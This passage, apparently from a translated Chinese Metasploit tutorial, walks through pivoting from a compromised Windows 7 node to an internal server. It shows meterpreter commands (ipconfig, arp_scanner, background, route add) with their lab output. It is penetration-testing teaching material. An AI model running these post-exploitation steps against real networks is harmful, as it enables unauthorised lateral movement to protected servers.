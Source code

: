 攻击者可以 compromise 与互联网连接的网络的外部节点。然后这些节点与防火墙连接。防火墙后面是主服务器。现在，由于攻击者无法访问服务器，他可以使用节点作为访问的媒介。如果攻击者成功地 compromise 了节点，那么它可以进一步渗透网络，以达到服务器。这是涉及转向的典型情况。图中的红线显示了通过 compromise 的节点在攻击者和服务器之间建立的转向路径。在这个示例中，我们将使用我们在上一章中学到的一些 meterpreter 网络命令。

## 如何做...

让我们看看如何使用 meterpreter 实现先前讨论的情景。

在这个示例中，我们的目标节点是运行在 Windows 7 上并连接到网络的机器。服务器运行在 Windows 2003 上。通过使用客户端浏览器漏洞，节点已经被 compromise，并且我们已经建立了一个活动的 meterpreter 连接。让我们从在目标节点上运行 ipconfig 开始，看看它上面有哪些可用的接口。

```
meterpreter > ipconfig
Interface 1
Hardware MAC: 00:00:00:00:00:00
IP Address: 10.0.2.15
Netmask : 255.255.255.0
VirtualBox Host-Only Ethernet Adapter
Hardware MAC: 08:00:27:00:8c:6c
IP Address : 192.168.56.1
Netmask : 255.255.255.0 
```

正如你所看到的，目标节点有两个接口。一个是连接到互联网的 192.168.56.1，另一个是内部网络的 IP 接口 10.0.2.15。我们下一个目标将是找出这个本地网络中还有哪些其他系统。为此，我们将使用一个名为`arp_scanner`的 meterpreter 脚本。这个脚本将在内部网络上执行 ARP 扫描，以找出其他可用的系统。

```
meterpreter > run arp_scanner -r 10.0.2.1/24
[*] ARP Scanning 10.0.2.1/24
[*] IP: 10.0.2.7 MAC 8:26:18:41:fb:33
[*] IP: 10.0.2.9 MAC 41:41:41:41:41:41 
```

所以脚本成功地发现了网络上两个可用的 IP 地址。让我们选择第一个 IP 地址并对其进行枢纽转发。

## 工作原理...

为了访问 IP 为 10.0.2.7 的系统（即服务器），我们将不得不通过目标节点 10.0.2.15 路由所有数据包。

为此，我们将使用一个名为`route`的命令。我们在之前的章节中也学习过这个命令。要使用这个命令，我们将把当前的 meterpreter 会话放到后台。

```
meterpreter > background
msf exploit(handler) > route add 10.0.2.15 255.255.255.0 1
[*] Route added
msf exploit(handler) > route print
Active Routing Table
====================
Subnet Netmask Gateway
------ ------- -------
10.0.2.15 255.255.255.0 Session 1 
```

查看路由命令的参数。`add`参数将把详细信息添加到路由表中。然后我们提供了目标节点的 IP 地址和默认网关。最后，我们提供了当前活动的 meterpreter 会话 ID（即 1）。`route print`命令显示了表，你可以清楚地看到所有通过这个网络发送的流量现在都将通过 meterpreter 会话 1。
